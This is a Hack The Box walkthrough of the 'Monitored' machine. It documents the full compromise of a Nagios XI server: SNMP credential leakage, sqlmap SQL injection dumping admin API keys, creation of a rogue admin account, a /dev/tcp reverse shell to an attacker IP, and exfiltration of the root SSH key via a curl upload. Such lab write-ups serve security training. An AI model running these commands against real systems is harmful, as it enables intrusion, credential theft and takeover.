







# Monitored



Monitored is a medium Linux Hack The Box machine centered on Nagios XI and SNMP. Initial access comes from leaking credentials through SNMP and abusing the Nagios API, while root is obtained by manipulating a profile-generation script to exfiltrate the root SSH key.

## Reconnaissance

I started with an Nmap scan of the machine.

```bash
sudo nmap -sS -A -p- -o nmap 10.129.239.6
```

The scan showed SSH, HTTP, LDAP, HTTPS, and a Nagios-related service:

```text
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
5667/tcp open  tcpwrapped
```

The web service redirected to `nagios.monitored.htb`, so I added that hostname to my hosts file.




## SNMP Enumeration

The first web checks did not reveal much, so I looked at UDP services. Nagios often exposes useful data over SNMP, so I scanned UDP ports next.

```bash
sudo nmap -o nmap_udp -sU 10.129.239.6
```

That showed SNMP on port 161:

```text
68/udp  open|filtered dhcpc
123/udp open          ntp
161/udp open          snmp
162/udp open|filtered snmptrap
```

I dumped the SNMP tree with `snmpwalk`.

```bash
snmpwalk -v2c -c public nagios.monitored.htb > snmpwalk
```

Within the output, I found a startup command containing a username and password:

```text
sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB
```

That gave me credentials for `svc`.

## Nagios API Access

The password did not work for the usual login methods, so I looked for another way into Nagios XI. I found that the application supports API authentication with tokens.

I generated a token with the `svc` credentials.

```bash
curl -POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=1000' --proxy "http://127.0.0.1:8080"
```

Then I confirmed the token worked by using it to access a Nagios page.

```bash
curl -k -L 'https://nagios.monitored.htb/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=3e73f4036a0980775226614e410cec93b0c3b86e' > image.png
```

Using the token on the main page brought me to the Nagios XI dashboard. The version shown was 5.11.0.

## SQL Injection

Nagios XI 5.11.0 is vulnerable to SQL injection in `banner_message-ajaxhelper.php`. I used `sqlmap` against the `id` parameter.



```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?id=1&token=d49fbfbd777098d47c48dd42b18755aa76c19553" -p id --proxy=http://127.0.0.1:8080 --dbs
```

The target had two databases, and the interesting one was `nagiosxi`. I then listed tables.

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1&token=0c9e269703f86ad38766a7c282272de56787ea99" -p id --proxy=http://127.0.0.1:8080 --batch --tables -D nagiosxi
```

The most interesting table was `xi_users`. I dumped it.

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1&token=042b5f8597666a7d80766e2fa62fc3dcb5813876" -p id --proxy=http://127.0.0.1:8080 --batch --dump -T xi_users -D nagiosxi
```

The dump revealed user records and API keys, including the admin account:

```text
admin@monitored.htb
Nagios Administrator
IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
nagiosadmin
```

## New Admin User

Using the admin API key, I created a new user with admin privileges.

```bash
curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=deadbeef&password=deadbeef&name=deadbeef&email=deadbeef@localhost&auth_level=admin" --proxy "http://127.0.0.1:8080" --insecure
```

The server confirmed the account was created successfully:

```json
{
    "success": "User account deadbeef1 was added successfully!",
    "user_id": 7
}
```

I logged in with the new credentials and changed the password when prompted.

## Nagios Command Execution

From the admin dashboard, I opened the Core Config Manager and navigated to the commands section. There I created a new command with a reverse shell payload.





```bash
bash -c '/bin/bash -l > /dev/tcp/10.10.16.40/443 0<&1 2>&1'
```



After saving and applying the configuration, I assigned that command to `localhost` and ran it from the host page. That gave me a shell as `nagios`.



## User Shell

I upgraded the shell to make it easier to work with.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then I checked sudo privileges.

```bash
sudo -l
```

The output showed several allowed scripts, including `getprofile.sh`.

## Root Path

I inspected `/usr/local/nagiosxi/scripts/components/getprofile.sh` and found that it reads the log file path from `/usr/local/nagios/etc/nagios.cfg`.

Relevant logic:

```bash
nagios_log_file=$(cat /usr/local/nagios/etc/nagios.cfg | sed -n -e 's/^log_file=//p' | sed 's/\r$//')
tail -n500 "$nagios_log_file" &> "/usr/local/nagiosxi/var/components/profile/$folder/nagios-logs/nagios.txt"
```

The key detail was that `nagios.cfg` was writable. I checked the permissions and then replaced the log file path with the root SSH private key path.

```bash
sed -i 's#/usr/local/nagios/var/nagios.log#/root/.ssh/id_rsa#g' /usr/local/nagios/etc/nagios.cfg
```

Then I ran the profile generation script as root.

```bash
sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 1
```

That created a `profile.zip` file containing a copied `nagios.txt` from the root SSH key location.

To retrieve it, I used a simple upload server and exfiltrated the archive.

```bash
python3 -m uploadserver 80
```

On the target:

```bash
curl -X POST http://10.10.16.40/upload -F files=@/usr/local/nagiosxi/var/components/profile.zip
```

After downloading and extracting the ZIP, I found the generated file in:

```text
./profile-1705446030/nagios-logs/nagios.txt
```

That file contained the root SSH private key. I fixed the permissions and used it to SSH as root.

```bash
chmod 600 nagios.txt
ssh -i ./nagios.txt root@monitor.htb
```

## Attack Path

- Enumerate the target and identify Nagios XI services.
- Discover SNMP and dump process command lines.
- Recover `svc` credentials from SNMP output.
- Authenticate to Nagios XI with an API token.
- Exploit SQL injection in `banner_message-ajaxhelper.php`.
- Dump the `xi_users` table and recover the admin API key.
- Create a new admin user.
- Use Core Config Manager to create a reverse shell command.
- Gain a shell as `nagios`.
- Abuse writable `nagios.cfg` and the `getprofile.sh` script.
- Exfiltrate the generated profile ZIP.
- Recover the root SSH private key and log in as root.
